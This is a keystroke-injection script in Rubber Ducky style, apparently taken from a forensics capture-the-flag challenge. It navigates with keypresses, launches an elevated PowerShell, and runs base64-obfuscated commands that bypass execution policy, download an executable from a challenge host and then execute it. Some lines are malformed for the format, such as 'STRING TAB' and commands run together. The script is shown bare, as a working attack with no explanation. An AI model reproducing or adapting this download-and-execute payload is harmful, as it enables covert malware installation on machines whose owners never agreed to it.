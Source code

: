 ```
STRING TAB
DELAY 500

STRING TAB
DELAY 500

STRING TAB
DELAY 500

STRING TAB
DELAY 500

STRING TAB
DELAY 500


DELAY 500

STRING DOWN
DELAY 500

STRING DOWN
DELAY 500

STRING DOWN
DELAY 500

STRING DOWN
DELAY 500


DELAY 500

STRING DOWN
DELAY 500

STRING DOWN
DELAY 500


DELAY 500

STRING powershell Start-Process powershell -Verb runAs
DELAY 500

STRING PowerShell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAJwBoAHQAdABwADoALwAvAGMAaABhAGwAbABlAG4AZwBlADAAMQAuAHIAbwBvAHQALQBtAGUALgBvAHIAZwAvAGYAbwByAGUAbgBzAGkAYwAvAGMAaAAxADQALwBmAGkAbABlAHMALwA2ADYANgBjADYAMQA2ADcANgA3ADYANQA2ADQAMwBmAC4AZQB4AGUAJwAsACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AApowershell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAGMAbwBtACAAcwBoAGUAbABsAC4AYQBwAHAAbABpAGMAYQB0AGkAbwBuACkALgBzAGgAZQBsAGwAZQB4AGUAYwB1AHQAZQAoACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AAoAexit
```
